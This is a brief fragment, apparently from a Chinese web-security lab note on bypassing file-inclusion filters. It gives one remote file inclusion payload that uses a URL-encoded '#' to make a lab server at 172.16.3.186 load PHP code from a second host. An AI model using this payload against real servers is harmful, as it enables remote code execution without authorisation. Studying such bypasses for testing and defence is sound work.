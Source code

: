   ![c90c5f16afb8434859514739328d0ede.png](../../images/55790d550a5244e9b51009e57c5bbb6f.png)

- b.#号绕过
  http://172.16.3.186/test/yfi.php?filename=http://172.16.3.183/php.txt%23
